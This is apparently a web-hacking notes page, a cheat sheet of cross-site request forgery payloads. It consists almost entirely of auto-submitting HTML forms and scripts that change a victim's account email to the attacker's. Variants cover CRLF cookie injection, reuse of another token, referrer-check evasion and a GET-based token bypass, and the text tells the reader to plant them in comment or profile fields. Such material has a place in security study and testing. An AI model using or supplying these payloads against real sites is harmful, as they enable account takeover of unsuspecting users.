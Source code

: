 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
desc: 
tags: [Burp, Cross, CSRF, Site, Web]
alts: []
render_with_liquid: false
---
```


## POST Request

The payloads need to be entered in the post form like comments, profile in the target web page.  
They force to update the victim account's email address to your email address.

1. **Basic**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
        document.forms[0].submit();
    </script>
    ```

2. **Cookie Injection**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <img src="https://vulnerable.com/?search=attack%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();">
    ```

3. **Use the Other CSRF Token**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
        <input type="hidden" name="csrf" value="PqORuKZMr9zIJxpZC2cA8BgHuQGVkW8h">
    </form>
    <script>
        document.forms[0].submit();
    </script>
    ```

4. **Referrer Validation**

    ```html
    <meta name="referrer" content="no-referrer">

    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
        // For referrer validation....
        history.pushState("", "", "/?vulnerable.com");
        
        document.forms[0].submit();
    </script>
    ```

<br />

## GET Request (Bypass CSRF Token)

```html
<!-- ex. https://attacker.com/exploit -->

<form method="GET" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>
<script>
    document.forms[0].submit();
</script>
```
